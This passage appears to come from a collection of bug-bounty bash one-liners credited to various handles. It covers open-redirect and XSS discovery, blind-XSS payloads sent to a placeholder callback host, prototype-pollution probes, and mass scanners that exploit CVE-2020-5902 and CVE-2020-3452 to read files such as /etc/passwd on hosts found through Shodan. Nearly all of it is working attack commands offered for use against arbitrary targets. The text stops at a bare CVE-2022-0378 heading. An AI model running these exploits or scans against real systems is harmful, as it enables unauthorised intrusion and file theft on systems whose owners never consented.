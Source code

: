 > @N3T_hunt3r
```bash
cat URLS.txt | gf url | tee url-redirect.txt && cat url-redirect.txt | parallel -j 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null
```

### XSS
> @cihanmehmet

```bash
gospider -S URLS.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee OUT.txt
```

> @fanimalikhack

```bash
waybackurls HOST | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b YOURS.xss.ht pipe > OUT.txt
```

> @oliverrickfors

```bash
cat HOSTS.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"
```

### Prototype Pollution
> @R0X4R

```bash
subfinder -d HOST -all -silent | httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' FILE.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```

### CVE-2020-5902
> @Madrobot_

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```

### CVE-2020-3452
> @vict0ni

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

### CVE-2022-0378
> @7h3h4ckv157
